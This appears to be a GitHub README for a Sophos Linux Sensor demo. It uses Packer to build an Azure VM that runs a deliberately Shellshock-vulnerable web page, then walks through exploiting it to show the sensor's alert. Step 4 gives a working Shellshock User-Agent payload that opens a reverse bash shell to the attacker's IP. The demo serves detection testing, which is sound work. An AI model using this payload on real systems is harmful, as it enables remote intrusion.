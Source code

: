 # SophosLinuxSensor-Demo

## Author

* Github: [@spence-rat](https://github.com/spence-rat)
* LinkedIn: [@Spencer_Brown](https://www.linkedin.com/in/spencerbrowntx/)

## About
This repository seeks to build an image to Azure via Hashicorp Packer.
When a virtual machine is build off the image, it will already have the Sophos Linux Sensor running, as well as a docker container hosting
a http page vulnerable to shellshock RCE.

## Steps

## Packer
1. Adjust variables for your environment in variables.json
2. Adjust Sophos Central ID in SLS-env.sh
3. packer build --var-file=variables.json ubuntu.json
 
## Azure
1. Create a Network Security Group in Azure via CLI: az network nsg create --resource-group NAME_OF_RESOURCE_GROUP --location REGION --name NAME
2. Allow port 8080: az network nsg rule create --resource-group vse_east_rg --nsg-name opendev_nsg --name allow8080 --protocol tcp --priority 100 --destination-port-range 8080
3. Create the VM: az vm create --resource-group RESOURCE_GROUP --name NAME_OF_VM --admin-username ADMIN_USERNAME --admin-password "ADMIN_PASSWD" --image SLS-ubuntu --vnet-name YOUR_VNET --subnet YOUR_SUBNET --public-ip-sku Basic  --nsg NAME_OF_NSG_FROM_STEP_ONE
4. Record Public IP of VM for next steps.

## In a machine with Burp Suite installed.
1. Set up a reverse listener (ex. nc -lvnp 1234)
2. Set up Burp Suite to intercept requests.
   How to article: https://www.linuxfordevices.com/tutorials/linux/burpsuite-with-firefox
3. Visit http://IPofVM:8080/victim.cgi
4. Adjust user-agent in request to:
   () { ignored;};/bin/bash -i >& /dev/tcp/YOURIPADDRESS/PORTNUMBER 0>&1
   Make sure that the vm in azure can reach your ip address and the port is accessible.
5. Return to your reverse listener - you now have an interactive shell.
6. Login to your Azure VM and type in journalctl -u sophoslinuxsensor
7. The stdout of the Sophos Linux Sensor shows us an alert for Suspicious Interactive Shell!

## Screenshots


![image](https://user-images.githubusercontent.com/82817752/181119596-5b8959e7-62be-4999-872c-a446242ab876.png)

![image](https://user-images.githubusercontent.com/82817752/181119651-42fe7813-1482-4976-aeca-22cfe262dff6.png)

![image](https://user-images.githubusercontent.com/82817752/181119681-eab5fc1c-5f72-49db-88b5-a467c6ba17e2.png)

## Show your support

Give a ⭐️ if this project helped you!

## References
https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
